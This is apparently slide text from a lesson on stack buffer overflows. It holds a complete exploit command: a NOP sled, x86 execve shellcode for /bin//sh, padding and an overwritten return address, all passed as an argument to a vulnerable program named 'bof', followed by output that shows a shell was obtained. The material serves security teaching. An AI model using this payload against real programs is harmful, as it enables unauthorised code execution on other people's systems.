

# Get shell outside gdb
$ ./bof $(python -c 'print "\x90" * 60 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80" + "A" * (140 - 60 - 24)+ "\xea\xd4\xff\xff"')
argv[1]:������������������������������������������������������������1�Ph//shh/bin�S�ᙰ
                                                                                  AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA��
$ id
uid=1000(user) gid=1000(user) groups=1000(user),27(sudo)
$

NOP Sled